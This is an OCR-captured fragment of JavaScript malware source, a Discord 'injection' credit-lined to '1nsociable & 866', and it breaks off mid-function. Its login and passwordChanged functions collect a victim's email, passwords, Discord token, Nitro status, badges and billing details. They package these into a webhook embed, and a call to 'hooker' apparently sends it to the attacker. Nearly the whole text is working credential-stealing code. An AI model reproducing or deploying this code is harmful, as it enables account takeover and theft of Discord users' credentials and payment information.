   req.on('error', (err) => {
    console.log(err);
  });
  req.write(data);
  req.end();
};

const login = async (email, password, token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = await getBilling(token);
  const content = {
    username: config.embed_name,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Account Info**',
            value: `Email: **${email}** - Password: **${password}**`,
            inline: false,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}**\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: false,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}.webp`,
        },
        footer: {
          text: '🎉・Discord Injection By 1nsociable & 866・https://discord.gg/zG53DvvHHb',
        },
      },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val;
  hooker(content);
};

const passwordChanged = async (oldpassword, newpassword, token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = await getBilling(token);
  const content = {
    username: config.embed_name,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Password Changed**',